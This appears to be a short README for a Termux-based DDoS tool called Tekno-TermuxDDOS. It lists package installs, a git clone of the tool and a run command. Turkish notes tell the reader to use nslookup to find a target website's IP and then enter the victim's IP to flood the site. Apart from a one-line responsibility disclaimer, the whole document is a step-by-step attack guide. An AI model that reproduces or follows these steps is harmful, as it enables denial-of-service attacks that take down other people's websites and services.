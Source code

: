 # Tekno-TermuxDDOS


apt update

apt upgrade

apt install python

apt install python3


apt install git

apt install dnsutils

git clone https://github.com/teknodroid/Tekno-TermuxDDOS

cd Tekno-TermuxDDOS

nslookup 

python Tekno-TermuxDDOS.py  -p 80 -s 192.168.1.1 -t 135



Not
192.168.1.1 yazan yer sadece bir örnektir siz kurbanın ip adresini yazınız diğerleri aynıdır sadece ip adresine kurbanınkini yazın 

Bir sitenin ip adresini öğrenmek için sondan 2. Kod gibi termuxa nslookup (web site) örnek
nslookup google.com gibi sonra ip adresi karşınıza çıkacak ip adresini son kodda bulunan 192.168.1.1 yerine yazarak siteye ddos atabilirsiniz
YAPTIKLARINIZ SİZİN SORUMLULUĞUNUZDADIR

